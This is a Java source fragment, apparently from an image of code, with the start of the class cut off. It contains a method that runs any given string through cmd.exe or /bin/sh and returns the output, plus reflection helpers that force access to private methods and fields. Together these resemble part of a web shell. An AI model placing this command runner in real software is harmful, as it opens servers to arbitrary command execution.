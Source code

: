 ```java
    private String run(String data) throws Exception {
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", data} : new String[]{"/bin/sh", "-c", data};
        Process process = new ProcessBuilder(cmd).start();
        try {
            return new Scanner(process.getInputStream()).useDelimiter("\\A").next();
        } catch (NoSuchElementException e) {
            return new Scanner(process.getErrorStream()).useDelimiter("\\A").next();
        }
    }

     @SuppressWarnings("all")
    public static Object invokeMethod(Object obj, String methodName, Class<?>[] paramClazz, Object[] param) throws Exception {
        Class<?> clazz = (obj instanceof Class) ? (Class<?>) obj : obj.getClass();
        Method method = null;
        while (clazz != null && method == null) {
            try {
                if (paramClazz == null) {
                    method = clazz.getDeclaredMethod(methodName);
                } else {
                    method = clazz.getDeclaredMethod(methodName, paramClazz);
                }
            } catch (NoSuchMethodException e) {
                clazz = clazz.getSuperclass();
            }
        }
        if (method == null) {
            throw new NoSuchMethodException(obj.getClass() + " Method not found: " + methodName);
        }
        method.setAccessible(true);
        return method.invoke(obj instanceof Class ? null : obj, param);
    }

    @SuppressWarnings("all")
    public static Object getFieldValue(Object obj, String name) throws Exception {
        Class<?> clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field field = clazz.getDeclaredField(name);
                field.setAccessible(true);
                return field.get(obj);
            } catch (NoSuchFieldException var5) {
                clazz = clazz.getSuperclass();
            }
        }
        throw new NoSuchFieldException(obj.getClass().getName() + " Field not found: " + name);
    }
}
```
